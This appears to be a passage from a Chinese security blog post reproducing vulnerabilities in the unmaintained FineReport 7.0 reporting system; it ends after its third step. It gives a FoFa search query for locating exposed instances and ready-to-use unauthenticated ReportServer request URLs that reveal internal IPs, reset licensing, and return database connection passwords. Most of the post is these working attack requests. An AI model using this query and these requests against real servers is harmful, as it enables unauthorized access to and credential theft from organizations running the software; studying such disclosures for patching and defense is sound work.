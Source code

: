   

“

**FineReport 7.0 版本**

**属于 2012 年的历史版本**

**此版本现已不再维护  
**

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBC6NEzIlYVIcyicOuictFB4j35kRicYnW3AEaSN69mfWHibBeT3PQiaKNqn5w/640?wx_fmt=png)

”  

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

****Part 4 FoFa 语法****

  

“

```
"down.download?FM_SYS_ID" && title="招聘"
```

”  

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

****Part 5 漏洞复现****

  

“

**帆软报表系统 2012 版本存在未授权访问 + 内网数据库用户名密码泄露 + 通用弱口令**

**未授权部分  
**

**1. 未授权查看访问内网 ip**

```
http://XXXXXX/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBCWFyBvmURTxVicB8icXqf64TV15HL8YdM3WwKia4pxRXBNAA9ic64Gz1H6Q/640?wx_fmt=png)

**2. 未授权重置授权**  

```
http://XXXXXX/ReportServer?op=fr_server&cmd=sc_version_info&showtoolbar=false
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBC7jPmhA7wd8HCYFrsosvrpiaC4AFwxT4sAnG5NChURNOwJcFbESszzPQ/640?wx_fmt=png)

**3. 查看数据库密码**  

```
http://XXXXXX/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```
